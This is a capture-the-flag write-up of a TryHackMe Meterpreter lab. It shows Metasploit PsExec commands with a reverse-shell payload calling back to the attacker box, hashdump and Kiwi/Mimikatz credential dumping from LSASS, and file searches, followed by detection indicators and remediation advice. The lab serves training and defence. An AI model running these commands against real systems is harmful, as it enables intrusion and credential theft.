









# CTF Writeup 33 — TryHackMe: Metasploit Meterpreter

**Date:** 01/05/2026
**Platform:** TryHackMe — Metasploit: Meterpreter
**Category:** Post-Exploitation / Credential Dumping
**Tools:** Metasploit, Meterpreter, Kiwi (Mimikatz)
**Attacker:** TryHackMe AttackBox

---

## Objective

Simulate a post-exploitation engagement using Meterpreter against a Windows
target. Starting from a known credential pair, establish a Meterpreter session
via SMB, enumerate the system, dump credentials, and recover sensitive files.

---

## Background

Meterpreter is Metasploit's advanced post-exploitation payload. Unlike a basic
reverse shell, it runs entirely in memory, leaves no files on disk, and
provides a rich set of built-in commands for enumeration, privilege escalation,
and lateral movement. Modules like Kiwi (a Metasploit port of Mimikatz) allow
credential extraction from LSASS memory — a technique used in nearly every
real-world Windows intrusion.

This room simulates a scenario where an initial credential pair has been
obtained (ballen:Password1) and the goal is to demonstrate how far an attacker
can move from that single foothold.

---

## Lab Setup

Room started on TryHackMe AttackBox. Target machine launched via the room
interface. Initial credentials provided: `ballen / Password1`.

### Screenshot — Metasploit Launched



---

## Part A — Initial Access via SMB PsExec

With valid credentials in hand, the `exploit/windows/smb/psexec` module was
used to establish a Meterpreter session. PsExec authenticates over SMB using
the supplied credentials and drops a service-based payload to get execution.

```
use exploit/windows/smb/psexec
set RHOSTS [target IP]
set SMBUser ballen
set SMBPass Password1
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST [AttackBox IP]
run
```

| Option | Value | Purpose |
|--------|-------|---------|
| `RHOSTS` | Target IP | Machine to attack |
| `SMBUser` | ballen | Compromised username |
| `SMBPass` | Password1 | Compromised password |
| `PAYLOAD` | windows/x64/meterpreter/reverse_tcp | In-memory reverse shell |
| `LHOST` | AttackBox IP | Where the shell calls back to |

### Screenshot — SMB PsExec Module Configured



Session opened successfully.

---

## Part B — System Enumeration

With a Meterpreter session active, `sysinfo` was run to retrieve basic host
information — computer name and domain membership.

```
sysinfo
```

### Screenshot — sysinfo Output



`sysinfo` returned the computer name and domain, answering the first two room
questions directly from a single command.

---

## Part C — Share Enumeration

The `enum_shares` post module lists all SMB shares on the target, including
any non-standard shares created by users.

```
run post/multi/recon/local_exploit_suggester
run post/windows/gather/enum_shares
```

| Command | Purpose |
|---------|---------|
| `run post/...` | Executes a post-exploitation module within the session |
| `enum_shares` | Lists all SMB shares including user-created ones |

### Screenshot — Share Enumeration Output



A non-default share created by the user was identified, answering the third
room question.

---

## Part D — Credential Dumping with hashdump and Kiwi

`hashdump` extracts NTLM hashes from the SAM database. Kiwi (Mimikatz) goes
further — it reads credentials from LSASS memory and can recover cleartext
passwords where WDigest caching is active.

```
hashdump
load kiwi
creds_all
```

| Command | Purpose |
|---------|---------|
| `hashdump` | Dumps SAM database NTLM hashes |
| `load kiwi` | Loads Mimikatz extension into Meterpreter |
| `creds_all` | Retrieves all credential types from LSASS memory |

### Screenshot — hashdump Output



jchambers NTLM hash recovered from hashdump. Kiwi's `creds_all` additionally
returned the cleartext password for jchambers where WDigest caching was
enabled — a configuration that stores plaintext credentials in memory and is
disabled by default on modern Windows but common on older or misconfigured
systems.

---

## Part E — Sensitive File Recovery

Meterpreter's `search` command recursively searches the filesystem for files
by name. Two target files were located and read.

```
search -f secrets.txt
cat "C:\[path returned]\secrets.txt"

search -f realsecret.txt
cat "C:\[path returned]\realsecret.txt"
```

| Command | Purpose |
|---------|---------|
| `search -f` | Search filesystem by filename |
| `cat` | Read file contents from within Meterpreter |

### Screenshot — Search for secrets.txt



### Screenshot — Contents of secrets.txt



### Screenshot — Search for realsecret.txt



### Screenshot — Contents of realsecret.txt



Both files located and read without touching disk from the attacker's
perspective — all operations ran through the in-memory Meterpreter session.

---

## Attack Chain Summary

```
Valid credentials obtained (ballen:Password1)
    → SMB PsExec → Meterpreter session established (in-memory)
        → sysinfo → hostname + domain confirmed
            → enum_shares → user share identified
                → hashdump → NTLM hashes extracted
                    → Kiwi creds_all → cleartext passwords from LSASS
                        → search + cat → sensitive files recovered
```

---

## Real-World Relevance

This exercise mirrors the post-exploitation phase of a real intrusion almost
exactly. Once an attacker has a single valid credential — obtained via
phishing, credential stuffing, or brute force — PsExec or similar tools
provide immediate lateral movement across the domain. Meterpreter's in-memory
operation makes detection harder: no payload file is written to disk, so
file-based AV often misses it entirely. Kiwi/Mimikatz credential dumping
is one of the most common techniques observed in ransomware and APT
intrusions — it appears in MITRE ATT&CK as T1003.001 (LSASS Memory).

---

## Analyst View

A SOC analyst monitoring this environment would see several high-confidence
signals. An SMB authentication from a previously unseen source IP followed
immediately by service creation (PsExec drops a service) is a strong
composite indicator. LSASS access by a non-system process (the Meterpreter
session) would trigger EDR alerts on any modern endpoint. The absence of
on-disk payload files does not mean the activity is invisible — process
injection and LSASS access both generate Windows Event Log and Sysmon entries
(Event ID 10 — process access targeting lsass.exe).

---

## Indicators / IOCs

| Indicator | Type | Value | Severity |
|-----------|------|-------|----------|
| SMB auth from external IP | Network | Port 445, ballen account | High |
| PsExec service creation | Host | New service installed on target | High |
| LSASS memory access | Host | Sysmon Event ID 10 | Critical |
| WDigest cleartext caching | Configuration | Plaintext creds in memory | Critical |
| Lateral file access via Meterpreter | Host | cat on sensitive files | High |

---

## Escalation / Remediation

1. Force immediate password reset for ballen and any account whose hash or
   cleartext was recovered — treat all as compromised.
2. Disable WDigest credential caching via GPO:
   `HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest`
   → `UseLogonCredential = 0`
3. Enable Credential Guard on Windows 10/Server 2016+ to protect LSASS memory
   from tools like Mimikatz.
4. Alert on PsExec service creation patterns (service name often starts with
   `PSEXESVC`) and LSASS access from non-system processes.
5. Restrict SMB access to known management IPs using firewall rules — lateral
   movement via SMB should not be possible from arbitrary hosts.

---

## Recommendation

- **Single compromised credential = full domain exposure** without proper
  lateral movement controls — network segmentation and least-privilege are
  the primary mitigations.
- **WDigest should be disabled** on all Windows hosts — storing cleartext
  passwords in LSASS memory is a legacy behaviour with no modern use case.
- **Monitor for LSASS access** — any process other than the OS accessing
  lsass.exe is a high-confidence malicious indicator and should trigger
  an immediate alert.
- **Meterpreter's in-memory operation** highlights why file-based AV is
  insufficient — behavioural detection (EDR, Sysmon) is required to catch
  fileless attacks.
- **Sensitive files should never be stored in plaintext** on a domain-joined
  host — use a secrets manager or encrypted vault instead.
